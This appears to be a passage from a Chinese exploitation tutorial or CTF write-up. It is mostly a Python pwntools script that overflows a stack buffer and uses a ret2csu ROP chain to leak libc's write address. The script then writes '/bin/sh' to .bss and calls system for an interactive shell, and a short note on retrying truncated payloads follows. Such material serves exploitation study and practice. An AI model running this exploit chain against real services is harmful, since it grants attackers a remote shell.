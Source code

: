 ```python
    payload1 =  "\x00"*136
    payload1 += p64(0x40061a) + p64(0) +p64(1) + p64(got_write) + p64(8) + p64(got_write) + p64(1) # pop_rbx_rbp_r12_r13_r14_r15_ret
    payload1 += p64(0x400600) # mov rdx, r13; mov rsi, r14; mov edi, r15d; call qword ptr [r12+rbx*8]
    payload1 += "\x00"*56
    payload1 += p64(main)

    p.recvuntil("Hello, World\n")

    print "\n#############sending payload1#############\n"
    p.send(payload1)
    sleep(1)

    write_addr = u64(p.recv(8).ljust(8,'\x00'))
    print "write_addr: " + hex(write_addr)

    system_addr = write_addr - off_system_addr
    print "system_addr: " + hex(system_addr)

    bss_addr=0x0601040

    p.recvuntil("Hello, World\n")

    #rdi=  edi = r15,  rsi = r14, rdx = r13
    #read(rdi=0, rsi=bss_addr, rdx=16)
    payload2 =  "\x00"*136
    payload2 += p64(0x40061a) + p64(0) + p64(1) + p64(got_read) + p64(16) + p64(bss_addr) + p64(0) # pop_rbx_rbp_r12_r13_r14_r15_ret
    payload2 += p64(0x400600) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
    payload2 += "\x00"*56
    payload2 += p64(main)

    print "\n#############sending payload2#############\n"
    p.send(payload2)
    sleep(1)

    p.send("/bin/sh\0")
    sleep(1)

    p.recvuntil("Hello, World\n")

    # rdi = bss_addr
    pop_rdi = 0x400623
    payload3 =  "\x00"*136
    payload3 += p64(pop_rdi) + p64(bss_addr) + p64(system_addr)

    print "\n#############sending payload3#############\n"
    sleep(1)
    p.send(payload3)

    p.interactive()

```

要注意的是，当我们把程序的io重定向到`socket`上的时候，根据网络协议，因为发送的数据包过大，`read()`有时会截断`payload`，造成`payload`传输不完整造成攻击失败。这时候要多试几次即可成功。如果进行远程攻击的话，需要保证ping值足够小才行（局域网）。
